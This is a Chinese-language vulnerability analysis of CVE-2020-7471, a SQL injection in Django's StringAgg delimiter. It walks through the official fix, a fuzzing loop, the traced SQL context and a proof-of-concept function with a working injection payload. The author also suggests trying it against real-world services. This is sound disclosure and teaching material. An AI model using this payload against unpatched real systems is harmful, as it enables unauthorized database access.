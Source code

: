 # CVE-2020-7471 漏洞

### 漏洞原因

摘录 CVE-2020-7471 对这个漏洞的描述：

> Django 1.11 before 1.11.28, 2.2 before 2.2.10, and 3.0 befor
>  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220845-04159e5a-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220845-04159e5a-4cd8-1.png)
>  e 3.0.3 allows SQL Injection if untrusted data is used as a StringAgg  delimiter (e.g., in Django applications that offer downloads of data as a series of rows with a user-specified column delimiter). By passing a  suitably crafted delimiter to a contrib.postgres.aggregates.StringAgg  instance, it was possible to break escaping and inject malicious SQL.

可以看见这个漏洞的核心是 StringAgg 聚合函数的 delimiter 参数存在 SQL 注入漏洞。但是很快，为什么存在漏洞？怎么利用这个漏洞？二个问题在我心中油然而生，好奇心驱使我继续往下探索：

### 官方修复

首先在 Github 仓库查找 django 的 commit 记录，在这里不难发现官方对其的修复：

https://github.com/django/django/commit/eb31d845323618d688ad429479c6dda973056136

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220857-0b35c606-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220857-0b35c606-4cd8-1.png)

从这里我们知道几个信息，漏洞函数位于下面的模块之中

```
from django.contrib.postgres.aggregates import StringAgg
```

官方对 delimiter 使用如下语句处理来防御 django

```
Value(str(delimiter))
```

为什么这种方式能防御呢？首先补充一个知识点，如果你熟悉 django 或者至少做过 django 渗透，你应该知道在 django 开发中编写查询操作的时候，正确的做法是用下面的代码段：

```
sql = "SELECT * FROM user_contacts WHERE username = %s"
user = 'zhugedali'
cursor.execute(sql, [user])
```

django会根据你所使用的数据库服务器（例如PostSQL或者MySQL）的转换规则，自动转义特殊的SQL参数。如果你的查询代码像下面这种写法就存在注入的风险：

```
sql = "SELECT * FROM user_contacts WHERE username = %s" % 'zhugedali'
cursor.execute(sql)
```

那么回到正题，为什么 Value 函数可以解决 SQL 注入隐患，我们跟进 django 的源码查看：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220915-15cc5ce2-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220915-15cc5ce2-4cd8-1.png)

注释写的非常清楚，Vlue处理过的参数会被加到sql的参数列表里，之后会被 django 内置的过滤机制过滤，从而防范 SQL 漏洞。

到这里想必很多读者还是很好奇对于存在漏洞的版本我们如何去利用 SQL 漏洞呢？这就需要费点时间去搭建环境并从源码层面分析出 SQL 漏洞点的上下文语句情况。

### 漏洞利用

我搭建的环境如下：

- django 3.0.2
- postgres 10.11-3
- python 3.6

搭建环境的时候注意 django 配置好 settings.py 文件，并初始化 postgres 的数据库和数据表，文末会提供环境。

首先研究一下 StringAgg 的用法，直接阅读官方手册：

https://docs.djangoproject.com/en/3.0/ref/contrib/postgres/aggregates/

django.contrib.postgres.aggregates 提供 postggres 的聚合函数，其中的 StringAgg 类的参数如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220924-1b71e98c-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220924-1b71e98c-4cd8-1.png)

简单来讲他会将输入的值使用 delimiter 分隔符级联起来，Django 的 Model 类如何使用这个让我摸索了一会，我直接给出后面会提供的 POC 里面的示例：

```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

这个查询操作就是查询 Info 对应的 postgres 数据表的 gender 列，并将 name 列使用横线连接聚合，输入如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220930-1f13e3c4-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220930-1f13e3c4-4cd8-1.png)

为了测试出 delimiter 是如何导致SQL 注入的，我首先编写了一段 FUZZ 程序用于引发程序报错：

```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```

测试发现当 delimiter 是单引号的时候会导致报错：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220939-244da82a-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220939-244da82a-4cd8-1.png)

从报错信息很明显看出单引号未经过任何转义嵌入到 SQL 语句中了。然后我们来追踪程序的内部找出完整的 SQL 语句上下文。

我们上面的查询语句调用了 self.cursor.execute，从变量窗口可以看到此时变量窗口的 sql 变量还没有嵌入 delimiter 的值。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211220947-290a82ac-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211220947-290a82ac-4cd8-1.png)

在 86 行设置断点，再运行三次可以看到此时的 sql 已经加入了 delimiter 为单引号的取值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211221000-30b8c8d8-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211221000-30b8c8d8-4cd8-1.png)

这里的转义号是因为 sql 是个字符串，这行命令最终放入 postgres 中执行就变成了：

```
SELECT "vul_app_info"."gender", STRING_AGG("vul_app_info"."name", ''') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1
```

三个单引号那里会导致语法错误，并且我们将完整的 SQL 注入上下文环境得到了。在我的 POC 中我测试了 postgres 的注释符，即将 delimiter 设置为 `')--`，报错如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200211221007-3533d8f8-4cd8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200211221007-3533d8f8-4cd8-1.png)

很明显可以看到成功注释了 FROM 语句。为了构造合法的上下文语句我们将 delimiter 设置为：

```
'-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
```

传入之后发现，输出是：

```
{'gender': 'male', 'mydefinedname': 'li-zhao'}
```

如果只传入 `delimiter = '-'`，输出如下：

```
{'gender': 'female', 'mydefinedname': 'zhang'}
{'gender': 'male', 'mydefinedname': 'li-zhao'}
```

至此漏洞证明完毕

进一步，我们可以思考近期如果遇到真实环境中有 django 开发的服务返回一些查询的聚合内容，并且允许用户指定哪种连接符的时候，应该多加思考是否该服务未更新为最新版本，可以尝试这个 CVE 漏洞。

### 漏洞环境和 POC

https://github.com/Saferman/CVE-2020-7471

核心函数如下:

```
def query_with_evil():
    '''
    注入点证明
    分别设置delimiter为 单引号 二个单引号 二个双引号
    尝试注释后面的内容 ')--
    :return:
    '''
    print("[+]正常的输出：")
    payload = '-'
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
    print("[+]注入后的的输出：")
    payload = '-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
```